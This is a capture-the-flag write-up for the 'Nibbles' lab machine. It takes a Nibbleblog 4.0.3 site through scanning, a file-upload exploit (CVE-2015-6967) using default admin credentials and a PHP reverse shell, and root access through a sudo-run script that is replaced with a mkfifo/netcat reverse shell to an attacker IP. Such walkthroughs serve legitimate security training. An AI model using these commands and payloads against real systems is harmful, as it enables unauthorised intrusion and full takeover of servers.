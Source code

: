 ```yaml
---
cover: ../../../../.gitbook/assets/Nibbles.png
coverY: 247.12533333333332
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Nibbles

`CVE-2015-6967` `file upload` `php` `sudo`

```bash
john@attack> echo '10.129.96.84 nibbles.htb' | sudo tee -a /etc/hosts
john@attack> nmap nibbles.htb -sV
```

| Port     | Version                         |
| -------- | ------------------------------- |
| `22/tcp` | OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 |
| `80/tcp` | Apache httpd 2.4.18             |

```bash
john@attack> curl http://nibbles.htb
```

Content is on http://nibbles.htb/nibbleblog.

<figure><img src="../../../../.gitbook/assets/nibbles4.png" alt=""><figcaption></figcaption></figure>

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2987
```

Directories found : `/content` `/themes` `/admin` `/plugins` `/README` `/languages`

```bash
john@attack> ffuf -u http://nibbles.htb/nibbleblog/FUZZ.php -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 2986
```

Files found : `/sitemap.php` `/feed.php` `/admin.php` `/install.php` `/update.php`

```bash
john@attack> curl http://nibbles.htb/nibbleblog/README | less
```

Nibbleblog version : `v4.0.3`. It exists an exploit for this version : https://nvd.nist.gov/vuln/detail/CVE-2015-6967

<figure><img src="../../../../.gitbook/assets/nibbles8.png" alt=""><figcaption></figcaption></figure>

The default credentials are `admin:nibbles`.

```bash
john@attack> cp usr/share/webshells/php/php-reverse-shell.php image.php
```

Change the IP address in the file `image.php` by the attacker IP address. Then upload this file and save.

<figure><img src="../../../../.gitbook/assets/nibbles10.png" alt=""><figcaption></figcaption></figure>

```bash
   john@attack> nc -lnvp 1234 &
   john@attack> curl http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
   john@attack> CTRL+C
   john@attack> fg
nibbler@target> cat /home/nibbler/user.txt  # flag
nibbler@target> sudo -l
```

<figure><img src="../../../../.gitbook/assets/nibbles13.png" alt=""><figcaption></figcaption></figure>

```bash
nibbler@target> unzip /home/nibbler/personal.zip
   john@attack> vi monitor.sh
```

Edit the content of the `monitor.sh` file.

```bash
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.45 1235 >/tmp/f
```

```bash
nibbler@target> nc -lnvp 8000 > /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc nibbles.htb 8000 < monitor.sh
```

Target has received the `monitor.sh` corrupted file.

```bash
nibbler@target> chmod +x /home/nibbler/personal/stuff/monitor.sh
   john@attack> nc -lnvp 1235
nibbler@target> sudo /home/nibbler/personal/stuff/monitor.sh
   root@target> cat /root/root.txt # flag
```
